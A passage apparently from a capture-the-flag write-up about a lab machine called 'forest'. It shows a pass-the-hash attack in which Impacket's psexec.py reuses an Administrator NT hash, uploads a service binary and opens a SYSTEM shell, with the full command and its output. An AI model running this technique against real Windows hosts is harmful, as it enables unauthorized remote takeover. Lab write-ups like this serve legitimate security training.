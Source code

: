 The LM:NT hash couple can then be reused with one of the many implementations of sysinternal's popular PSExec tool, one of which just so happens to exist within Impacket's examples folder:

```aaa
┌─[✗]─[baud@parrot]─[/opt/impacket/examples]
└──╼ $./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@forest
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on forest.....
[*] Found writable share ADMIN$
[*] Uploading file GymrwPrz.exe
[*] Opening SVCManager on forest.....
[*] Creating service yUcN on forest.....
[*] Starting service yUcN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```



